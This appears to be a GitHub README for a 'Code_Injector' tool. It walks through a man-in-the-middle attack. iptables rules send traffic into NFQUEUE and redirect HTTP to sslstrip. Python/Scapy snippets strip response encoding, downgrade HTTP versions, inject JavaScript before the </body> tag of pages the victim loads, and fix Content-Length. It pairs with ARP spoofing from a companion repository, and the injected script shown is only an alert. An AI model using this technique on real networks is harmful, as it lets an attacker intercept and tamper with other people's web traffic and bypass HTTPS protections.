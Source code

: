 # Code_Injector

## Used Modules

###  netfilterqueue

NetfilterQueue provides access to packets matched by an iptables rule in Linux. Packets so matched can be accepted, dropped, altered, or given a mark. The iptables is the tool to access the linux netfilter firewall, the iptable rule we're gonna set to redirect the flow of packets to a queue to be analyzed.

iptables -P FORWARD ACCEPT<br>
iptables -I INPUT -j NFQUEUE --queue-num 0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num 0<br>

And then all packets that have the destination for the port 80(HTTP)
we're gonna to redirect to the port 10000 which is the sslstrip port(the tool SslStrip is used to bypass HTTPS websites). Remembering tha we can just do this because first we become the MITM using the file which is in the repository Arp_Spoof.

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000<br>

### Scapy

The module Scapy is used to edit the packets from the queue because with the original format there is no way to edit (for more information go to the repository Arp_Spoof). First of all already the MITM i analyse all the requests and responses, because my iptable rule that i defined i redirected the request that want to go for the port 80 to the port 10000(SslStrip), with this i can see all the requests with the destination 10000.

```python
  if scapy_packet[scapy.TCP].dport == 10000:
```

And using regex rules to access the field "Accept-Encoding" i remove the encoding from the packet, this way is possible to see the information about the packet and change, the same way i replace the field with "HTTP/1.1" fro an earlier version to avoid problems. 
```python
   load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
   load = load.replace("HTTP/1.1" , "HTTP/1.0")
```

Therefore the problem when the target make the requests is done, now when the progam check a response from the server (originnaly the response would come with the source port 80 but now came from the port 10000 because of my SslStrip tool) it's gonna inject the code in the field "load" that contains the HTML and scripts from the page that the target requested. Looking for a tag </body> that all HTML pages have and replacing with a java script code. 
```python
   elif scapy_packet[scapy.TCP].sport == 10000:
   injection_code = "<script>alert('CODE INJECTOR SUCCSSESFULLY DONE')</script>"
   load = load.replace("</body>", injection_code + "</body>")
```
Other importants details is change the length of the page because when a page is sent to someone it has a length and how it was changed because of the injecting code we have to change and verify if the load have the field content_length and recalculate the length adding the length of the injected code.
```python
   content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))
```
Lastly but not least how the format of the packet was change to a scapy packet we have to take the packet and turn into a orginal packet again.
```python 
   new_packet = set_load(scapy_packet, load)
   packet.set_payload(str(new_packet))
```
This way the progam is runned, on the bottom left side are the packets from the Arp_spoof being sent, on the top right side are the code_injector.py showing when requests ad responses are made, the other it's the sslstrip running.

<img src="termInjector.png">

And when my target access some website :-) ...

<img src="codeImage.png">


obs: to clean the iptables:

iptables --flush<br>
iptables --table nat --flush<br>
iptables --delete-chain<br>
iptables --table nat --delete-chain<br>
